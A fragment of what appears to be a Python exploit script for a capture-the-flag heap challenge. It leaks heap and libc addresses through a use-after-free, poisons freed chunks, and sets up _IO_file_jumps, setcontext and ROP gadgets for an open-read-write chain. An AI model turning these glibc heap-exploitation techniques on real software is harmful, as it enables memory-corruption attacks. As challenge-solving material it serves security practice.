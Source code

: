 ```python
def show(idx):
	cho(3)
	sla('Index:',str(idx))

def delete(idx):
	cho(4)
	sla('Index:',str(idx))


for i in range(25):
	add(0,0x78)


add(0,0x38)
delete(0)
show(0)
ru('Content: ')
heap=leak_address()
print('[+]heap: '+hex(heap))


edit(0,p64(heap+0xcb0))
add(0,0x38)
add(0,0x38)
edit(0,p64(0)+p64(0x501-0x20))
add(0,0x58)
delete(0)
show(0)
ru('Content: ')
libcbase=leak_address()-0x1e4ca0


for i in range(24):
	add(0,0x78)
add(0,0x58)



print('[+]libcbase: '+hex(libcbase))
setcontext=libc.sym['setcontext']+libcbase
print('[+]setcontext: '+hex(setcontext))
file_=libc.sym['_IO_file_jumps']+libcbase
print('[+]_IO_file_jumps: '+hex(file_))
helper=libcbase+0x1e5960
print('[+]_IO_helper_jumps: '+hex(helper))
stack=libcbase+0x1e7000
print('[+]fake_stack: '+hex(stack))

pop_rdi=libcbase+0x26542
pop_rsi=libcbase+0x26f9e
pop_rdx=libcbase+0x12bda6 
pop_rax=libcbase+0x47cf8
syscall=libcbase+0x10cf7f
o=libcbase+libc.sym['open']
r=libcbase+libc.sym['read']
w=libcbase+libc.sym['puts']



add(0,0x18)
delete(0)
edit(0,p64(file_+0x60))
add(0,0x18)
```
